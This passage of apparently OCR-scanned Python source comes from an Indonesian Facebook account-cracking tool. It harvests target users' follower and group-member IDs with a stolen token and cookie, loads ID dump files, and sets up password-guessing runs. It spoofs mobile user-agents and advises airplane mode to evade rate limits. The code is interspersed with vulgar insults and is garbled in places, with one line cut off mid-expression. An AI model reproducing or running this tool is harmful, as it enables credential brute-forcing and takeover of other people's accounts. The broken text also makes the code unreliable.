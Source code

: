 print(f'{x}')  print('>> Sinyal Lo kek Kontol ')  back() except (KeyError,IOError):  print(f'>>{k} Pertemanan Tidak Public {x}')  time.sleep(3)  back()#-------------------[ CRACK-PENGIKUT ]----------------#def dump_pengikut(): try:  token = open('.token.txt','r').read()  cok = open('.cok.txt','r').read() except IOError:  exit() print('>> Ketik ( me ) Jika Ingin Crack Follower Sendiri ') pil = input('>> Masukkan Idz Target : ') try:  koh2 = requests.get('https://graph.facebook.com/'+pil+'?fields=subscribers.limit(99999)&access_token='+tokenku[0],cookies={'cookie': cok}).json()  for pi in koh2['subscribers']['data']:   try:id.append(pi['id']+'|'+pi['name'])   except:continue  print(f'>> Total Idz :{h} '+str(len(id)))  setting() except requests.exceptions.ConnectionError:  print('>> Koneksi Internet Bermasalah ')  exit() except (KeyError,IOError):  print('>> Gagal Mengambil Target ')  exit()#------------------[ CRACK-GRUP ]-----------------#balmond = b+"["+h+"âœ“"+b+"]" def lah(): print("\r"+balmond+m+" \x1b[1;95mTotal ID :\x1b[1;97m "+str(len(id))+" ") input(balmond+m +"\x1b[1;97m Klik [\x1b[1;96m Enter ]\x1b[1;97m Jika Ingin Langsung Crack !!") pass setting()def grup(): print('') id = input(""+balmond+h+" \x1b[1;94m>> Masukkan Idz Grup :\x1b[1;94m ") ua = 'Mozilla/5.0 (SymbianOS/9.3; Series60/3.2 NokiaE52-1/052.003; Profile/MIDP-2.1 Configuration/CLDC-1.1 ) AppleWebKit/525 (KHTML, like Gecko) Version/3.0 BrowserNG/7.2.6.2 3gpp-gba' miskinlu = {"user-agent": ua} url = "https://mbasic.facebook.com/groups/"+id ses = requests.Session() try:  gn = parser(ses.get(url, headers=miskinlu).text, 'html.parser') except requests.exceptions.ConnectionError:  print(balmond+m+" Koneksi Internet Terputus..")  time.sleep(0.5)  exit() berr = gn.find("title") berr2 = berr.text.replace(" | Facebook","").replace(" Grup Publik","") if berr2=='Masuk Facebook':  print(balmond+m+" Limit, Silahkan Mode Pesawat Dan Coba Lagi..")  time.sleep(0.5)  crack_grup() elif berr2=='Kesalahan':  jalan(balmond+m+" Grup Tidak Ditemukan..")  time.sleep(0.5)  crack_grup() else:pass print(""+balmond+p+" \x1b[1;94m>> Nama Grup :\x1b[1;97m "+berr2) ggs = gn.find_all('table') ang = [] for ff in ggs:  anggo = ff.text  bro = anggo.replace('Anggota','')  try:   mex = int(bro)   jumlah = ang.append(mex)  except:   pass if len(ang)==0:  print(balmond+h+" Anggota : -") else:  print(balmond+h+" \x1b[1;94m>> Anggota :\x1b[1;97m "+str(ang[0])) grup1(url)def grup1(urls): use = [] ses = requests.Session() print(""+balmond+m+" \x1b[1;94mJika Berhenti, Mode Pesawat 5 Detik") print(balmond+m+" \x1b[1;94mSedang Mengumpulkan ID") print(balmond+m+" \x1b[1;94mTekan CTRL + C Untuk Stop") while True:  try:   ua = 'Mozilla/5.0 (SymbianOS/9.3; Series60/3.2 NokiaE52-1/052.003; Profile/MIDP-2.1 Configuration/CLDC-1.1 ) AppleWebKit/525 (KHTML, like Gecko) Version/3.0 BrowserNG/7.2.6.2 3gpp-gba'   miskinlu = {"user-agent": ua}   try:    url = use[0]   except:    url = urls   set = parser(ses.get(url, headers=miskinlu).text, "html.parser")   bf2 "+str(len(id))+h+" }"), end="");sys.stdout.flush()    else:     continue   try:    link_ = bcj2    use.insert(0,'https://mbasic.facebook.com'+link_)   except:    girang = set.find('title')    girang2 = girang.text.replace(" | Facebook","").replace(" Grup Publik","")    if girang2=='Masuk Facebook':     pass    else:     lah()  except requests.exceptions.ConnectionError:   try:    time.sleep(31)   except KeyboardInterrupt:    lah()  except KeyboardInterrupt:   lah()#-------------[ CRACK-ibo-FILE ]------------------#def crack_file(): try:vin = os.listdir('DUMP') except FileNotFoundError:  print('>> File Tidak Ditemukan ')  time.sleep(2)  back() if len(vin)==0:  print('>> Kamu Tidak Memiliki File Dump ')  time.sleep(2)  back() else:  cih = 0  lol = {}  for isi in vin:   try:hem = open('DUMP/'+isi,'r').readlines()   except:continue   cih+=1   if cih<100:    nom = ''+str(cih)    lol.update({str(cih):str(isi)})    lol.update({nom:str(isi)})    print(f'>> %s. %s ({h} %s{x} idz )'%(nom,isi,len(hem)))   else:    lol.update({str(cih):str(isi)})    print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)    print('>> %s. %s ({h} %s {x}idz) '%(cih,isi,len(hem)))  geeh = input('\n>> Pilih : ')  try:geh = lol[geeh]  except KeyError:   print(f'{k}>> Pilih Yang Bener Kontol {x}')   time.sleep(3)   back()  try:lin = open('DUMP/'+geh,'r').read().splitlines()  except:   print('>> File Tidak Ditemukan, Coba Lagi Nanti ')   time.sleep(2)   back()  for xid in lin:   id.append(xid)  setting()#-------------[ PENGATURAN-IDZ ]---------------#def setting(): print(f'{x}>> 1. FB KON ') print('>> 2. FB NEW ') print('>> 3. RANDOM ALL ID ') print('') hu = input('>> CHOSE : ') if hu in ['1','01']:  for tua in sorted(id):   id2.append(tua)  elif hu in ['2','02']:  muda=[]  for bacot in sorted(id):   muda.append(bacot)  bcm=len(muda)  bcmi=(bcm-1)  for xmud in range(bcm):   id2.append(muda[bcmi])   bcmi -=1 elif hu in ['3','03']:  for bacot in id:   xx = random.randint(0,len(id2))   id2.insert(xx,bacot) else:  print('>> Pilih Yang Bener Kontooll ')  exit() print('>> 1. MOBILE ')# print('>> 2. MBASICE ')# print('>> 3. TOUCH ')# print('>> 4. MTOUCH ') print('') hc = input('>> CHOSE : ') if hc in ['1','01']:  method.append('mobile')# elif hc in ['2','02']:#  method.append('free')# elif hc in ['3','03']:#  method.append('touch') elif hc in ['4','04']:  method.append('mbasic') else:  method.append('mobile') print('')# _jembot_ = input('>> APPAKAN DYAR BE ( Y/t ) ')# if _jembot_ in ['']:#  print('>> Pilih Yang Bener Kontol ')#  back()# elif _jembot_ in ['y','Y']:#  taplikasi.append('ya')# else:#  taplikasi.append('no') pwplus=input('>> PASS BO ZYA KAY YAN AUTO PASS ( Y/t ) ') if pwplus in ['y','Y']:  pwpluss.append('ya')  cetak(nel('[[cyan]â€¢[white]] PASSWORD BNUSA\n[[cyan]â€¢[white]] Contoh :[green]